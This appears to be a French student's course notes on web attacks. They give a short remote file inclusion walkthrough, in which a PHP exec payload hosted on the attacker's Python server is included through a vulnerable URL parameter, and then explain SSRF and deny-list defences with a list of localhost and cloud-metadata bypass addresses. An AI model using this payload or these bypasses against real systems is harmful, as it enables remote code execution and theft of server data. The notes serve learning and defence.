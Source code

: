  4. **RFI**  
      → on donc on utilise un python3 -m (serv python) ici `python3 -m http.server` (donne un port)
      → on créer un mini script : `nano host.txt` on met `<?php print exec('hostname'); ?>` dedans  
      → puis parti **FI** du RFI on tape l'url `IP/lala.php?file=http://sonIP:LE_PORT_PYTHON/host.txt` dans la bare de recherche
      →et voilà


## INTRO TO SSRF

* **Server-Side Request Forgery (SSRF)**

* Il existe deux types de vulnérabilité SSRF :  
> la première est une SSRF regular où les données sont renvoyées à l'écran de     l'attaquant.  
 La seconde est une vulnérabilité SSRF blind, où une SSRF se produit, mais aucune information n'est renvoyée à l'écran de l'attaquant.

* pour en trouver dans l'url du site doit y avoir une redirection srv de préférencre



### Se défendre du **ssrf**

Les développeurs plus conscients des risques liés aux vulnérabilités SSRF (Server-Side Request Forgery) peuvent mettre en place des vérifications dans leurs applications pour s’assurer que la ressource demandée respecte certaines règles. Il existe généralement deux approches pour cela : une **liste de refus (deny list)** ou une **liste d’autorisation (allow list)**.

---

*  Liste de refus (Deny List)

Une liste de refus permet toutes les requêtes sauf celles qui concernent des ressources spécifiées dans une liste ou correspondant à un modèle particulier. Une application web peut utiliser une liste de refus pour protéger des points de terminaison sensibles, des adresses IP ou des domaines afin d’éviter qu’ils soient accessibles au public, tout en permettant l’accès à d’autres ressources.

Un point de terminaison souvent restreint est **localhost**, qui peut contenir des données sur les performances du serveur ou d'autres informations sensibles. Des noms de domaine tels que `localhost` et `127.0.0.1` figureraient donc sur une liste de refus.

Cependant, les attaquants peuvent contourner une liste de refus en utilisant des références alternatives à `localhost`, telles que :
`0`, `0.0.0.0`, `0000`, `127.1`, `127.*.*.*`, `2130706433`, `017700000001` ou encore des sous-domaines avec un enregistrement DNS pointant vers l’adresse IP `127.0.0.1`, comme `127.0.0.1.nip.io`.

Dans un environnement **cloud**, il serait également judicieux de bloquer l'accès à l’adresse IP `169.254.169.254`, qui contient des **métadonnées** du serveur cloud déployé, y compris possiblement des informations sensibles. Un attaquant peut contourner cette restriction en enregistrant un sous-domaine sur son propre domaine avec un enregistrement DNS pointant vers l’adresse IP `169.254.169.254`.

---

### Liste d’autorisation (Allow List)
